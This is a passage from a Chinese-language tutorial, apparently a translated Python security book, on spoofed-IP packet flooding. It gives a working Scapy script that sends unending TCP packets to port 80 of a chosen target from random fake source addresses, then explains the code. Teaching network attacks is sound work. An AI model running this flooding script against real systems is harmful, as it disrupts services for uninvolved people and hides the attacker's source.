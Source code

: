 来自攻击者机器的数据包

上面的截图显示数据包成功发送。现在，检查目标机器上的输出：

![](img/e8efc7b0-36cc-48fa-8613-3ad99b1fe37d.png)

出现在目标机器上的数据包

在上面的截图中，矩形框显示了端口号。我会让你创建单个端口的多个 IP 地址。

# 多个 IP，多个端口

在这一部分，我们将讨论多个 IP 和多个端口地址。在这次攻击中，我们使用不同的 IP 发送数据包到目标。多个 IP 代表伪造的 IP。下面的程序将从伪造的 IP 发送大量数据包：

```py
import random
from scapy.all import *
target = raw_input("Enter the Target IP ")

i=1
while True: 
  a = str(random.randint(1,254))
  b = str(random.randint(1,254))
  c = str(random.randint(1,254))
  d = str(random.randint(1,254))
  dot = "."
  src = a+dot+b+dot+c+dot+d
  print src
  st = random.randint(1,1000)
  en = random.randint(1000,65535)
  loop_break = 0
  for srcport in range(st,en): 
    IP1 = IP(src=src, dst=target)
    TCP1 = TCP(sport=srcport, dport=80)
    pkt = IP1 / TCP1
    send(pkt,inter= .0001)
    print "packet sent ", i
    loop_break = loop_break+1
    i=i+1
    if loop_break ==50 :
      break
```

在上面的代码中，我们使用`a`、`b`、`c`和`d`变量来存储四个随机字符串，范围从`1`到`254`。`src`变量存储随机 IP 地址。在这里，我们使用`loop_break`变量来在`50`个数据包后中断`for`循环。这意味着 50 个数据包来自一个 IP，而其余的代码和之前的一样。
